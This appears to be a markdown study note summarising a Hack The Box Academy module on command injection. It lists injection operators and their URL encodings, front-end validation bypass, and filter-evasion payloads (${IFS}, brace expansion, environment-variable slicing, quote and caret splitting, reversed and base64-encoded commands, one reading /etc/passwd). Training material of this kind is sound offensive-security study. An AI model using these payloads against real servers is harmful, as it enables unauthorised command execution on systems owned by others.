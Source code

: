 # Command Injection Overview
-----
Command Injections stand out as one of the most critical vulnerabilities in the realm of cybersecurity. This type of vulnerability provides a gateway for executing system commands directly on the hosting server's back-end, potentially compromising the entire network. When a web application employs user-controlled input to execute system commands, there exists an opportunity to inject a malicious payload, diverting the intended command and executing unauthorized actions.

#### Command Injection Detection
- Whenever there's an input field, we can potentially have a command injection vulnerability.

- We can try variou commands with different operators (`;`, `\n`,`&&`, `|`, etc.)

#### Injecting Commands
- Assume we have an application that ping an IP address, we can add another command after the IP

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_injection.jpg)

- As we can see the application refuses our inout. However, it looks like the input validation is done on the front-end (i.e in the 2 commands execute successfully). 

#### Bypass Front-End Validation
- To bypass front-end validations, we can use BurpSuite to intecept the request. If there's only front-end validation, the Reponse will print the output of the commands

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_repeater_2.jpg)

## Filters Evasion

### Identify filters
- Filter/WAF Detection: when trying different operators (&, &&, |, ;), if we get errors from the web page, it means there's a filter in place to protect the application. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- When it comes to filtering, the application can blacklist operators or blacklist the whole command, or both. Hence, we need to attempt each scenario to figure out the vulnerability.

#### Blacklisted Characters
- If a commands contains a blocked special character, the application might deny the request.

- To find out which character is allowed in the application, use BurpSuite to try each of the following operators:

```bash
;	
\n	
&	
|
&&
||
``
$()
```

Their URL-encoded versions are:

```bash
%3b
%0a
%26
%7c
%26%26
%7c%7c
%60%60
%24%28%29
```

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_2.jpg)

#### Bypassing Space Filters
- If the application does not allow space character, we can try bypassing it by using tab instead.

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_3.jpg)

- As we see from the above image that the application accepts the request, meaning we succeed in bypassing space filter by using a tab.

- `${IFS}` is Linux Environment Varible whose default value is a space and a tab. Hence, the payload should look like `127.0.0.1%0a${IFS}`.

- Brace Expansion is another method we can use to bypass space filter, which automatically adds spaces between arguments wrapped between braces `{ls,-la}`. Hence, the payload will look like `127.0.0.1%0a{ls,-la}`.

#### Bypassing Other Blacklisted Characters
- Concept: we will obtain the special character from environment varible values (or $PATH).

- In Linux:
```bash
echo ${PATH} will output `/usr/local/bin:/usr/bin:/bin:/usr/games`. To get the "/" character, we run `echo ${PATH:0:1}`

- Similarly, to get ";" character, we use `${LS_COLORS:10:1}`

- So the final payload looks like: `127.0.0.1${LS_COLORS:10:1}${IFS}whoami`
```

- In Windows:

```shell
# Command Prompt
%HOMEPATH:~6,-11%	# output \


# PowerShell
$env:HOMEPATh[0]	# output \
```

#### Bypassing blacklisted commands
- In case an application blacklists certain commands, we need to find ways to work around.

- A few techniques we can use is using the commands with ' or ", which can be used on both Linux and Windows

```bash
127.0.0.1%0aw'h'o'a'm'i)
```

- In Linux, there are a few characters that can be inserted into the middle of the command

```bash
who$@ami
w\h\o\a\m\i
```

- Similarly, in Windows, we can use `^` character.

```bash
who^ami
```

#### Advanced Command Obfuscation
- In Windows, we can switching the cases of the commands (WhoAmI), which Windows will ignore and execute it.

- In Linux, since it is case-sensitive, we need to convert the command to lowercases before executing

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhoAmI")

Note: The above command uses space. If the application filters spaces, we need to replace it with tabs (%09)
```

- Reverse commands

```bash
# LINUX
echo "whoami" | rev
$(rev<<<"imaohw")

# WINDOWS
"whoami"[-1..-20] -join ''
iex "$('imaohw'[-1..-20] -join '')"
```

- Encoding commands: this is extremely helpful when it comes to using commands with filtered characters.

```bash
echo -n "cat /etc/passwd | grep 33" | base64	# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

# On the application
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

- For Windows, we can do similar technique

```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```


